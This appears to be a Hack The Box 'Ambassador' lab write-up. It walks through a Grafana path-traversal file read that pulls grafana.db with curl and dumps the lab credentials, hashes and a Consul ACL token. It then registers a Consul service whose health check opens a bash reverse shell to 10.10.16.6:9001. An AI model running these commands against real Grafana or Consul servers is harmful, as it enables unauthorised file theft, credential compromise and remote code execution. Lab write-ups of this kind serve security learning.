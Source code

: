 Hack the box Ambassador

Initial Scan

PORT 80 running a hugo site which a static site generater framework
PORT 3000 running Grafana. A grafical monitering tool
PORT 3306 running mysql

unauthenticated LFI vuln in grafana version 3.2.0   
Referance [https://www.exploit-db.com/exploits/50581]( https://www.exploit-db.com/exploits/50581)   
More about LFI [https://j0vsec.com/post/cve-2021-43798/](https://j0vsec.com/post/cve-2021-43798/)   

Exploit LFI using a python script 
Default config of grafana is using sqlite3 and store the file on /var/lib/grafana/grafana.db

Downloading Grafana.db

```bash
curl --path-as-is "http://10.129.208.1:3000/public/plugins/state-timeline/../../../../../../../../../../../../../var/lib/grafana/grafana.db" -O grafana.db
```

Found some creds
```bash
Username:grafana
password:dontStandSoCloseToMe63221!
Database:grafana
```
Grafana login cred
```bash
username:admin
password:dad0e56900c3be93ce114804726f78c91e82a0f0f0f6b248da419a0cac6157e02806498f1f784146715caee5bad1506ab069
salt:0X27trve2u
````
User creds
```bash
developer:YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==:anEnglishManInNewYork027468
```
Privilege escalation

Found token from local git commit of my-app in opt dir
```bash
ACL token:bb03b43b-1d81-d62b-24b5-39540ee469b5
```
Making exploit

Referance API doc
[https://www.consul.io/api-docs/agent/service](https://www.consul.io/api-docs/agent/service)

Referance about default port
[https://stackoverflow.com/questions/30684262/different-ports-used-by-consul](https://stackoverflow.com/questions/30684262/different-ports-used-by-consul)
```bash
curl http://127.0.0.1:8500/v1/agent/services -H "X-Consul-Token: bb03b43b-1d81-d62b-24b5-39540ee469b5"
curl -X PUT http://127.0.0.1:8500/v1/agent/services/register -H "X-Consul-Token: bb03b43b-1d81-d62b-24b5-39540ee469b5" --data @rce.json
```
rce.json
```json
{
  "ID": "rce3",
  "Name": "rce3",
  "Tags": ["primary", "v1"],
  "Address": "127.0.0.1",
  "Port": 80,
  "Check": {
    "Args": ["bash", "-c", "bash -i >& /dev/tcp/10.10.16.6/9001 0>&1"],
    "Interval": "10s",
    "Timeout": "86400s"
  }
}
```